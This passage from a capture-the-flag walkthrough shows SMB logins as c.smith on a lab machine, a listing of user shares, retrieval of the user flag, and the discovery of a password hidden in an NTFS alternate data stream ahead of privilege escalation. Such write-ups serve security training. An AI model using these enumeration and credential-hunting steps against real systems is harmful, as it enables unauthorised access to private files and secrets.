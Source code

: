 * let's run the code with mono.

![](https://i.ibb.co/TTk8PMT/password.png)

* let's get our user flag.

```ruby

smbclient //10.10.10.178/Users -U c.smith
Enter WORKGROUP\c.smith's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

		10485247 blocks of size 4096. 6545667 blocks available
smb: \> cd C.Smith
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019

		10485247 blocks of size 4096. 6545667 blocks available
smb: \C.Smith\> get user.get
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \C.Smith\user.get
smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 32 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\> 
```
![](https://i.ibb.co/ThXBNQx/flag.png)

# []()Privilege Escalation

* i found interested file in The HQK dir and we know that there is unknown running services in the machine and this is our point.

```ruby

smb: \C.Smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

		10485247 blocks of size 4096. 6545539 blocks available
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```
* download the debud mode file
